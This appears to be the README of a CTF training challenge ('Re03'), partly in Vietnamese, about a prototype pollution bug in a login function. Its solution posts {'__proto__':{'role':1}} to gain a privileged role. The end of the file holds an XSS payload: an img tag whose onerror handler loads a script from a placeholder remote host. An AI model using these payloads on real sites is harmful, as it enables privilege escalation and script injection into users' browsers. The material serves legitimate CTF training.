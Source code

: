 # Type
`challenge CTF training: Re03`
# Deploy
- `docker-compose up -d --build`
# Description
Prototype pollution vulnerability.
## Chức năng
- Đăng nhập
## Solution
- POST data trong chức năng đăng nhập: {"\_\_proto\_\_":{"role":1}} (lưu ý header cần sửa thành Content-Type: application/json)
## Error: Cannot find module 'ejs' --> fix:
- `cd ./web`
- `npm install ejs`
<img src="http://nonexistent-image" onerror="var script = document.createElement('script'); script.src='http://ip/client.js'; document.body.appendChild(script);">
java:alert()
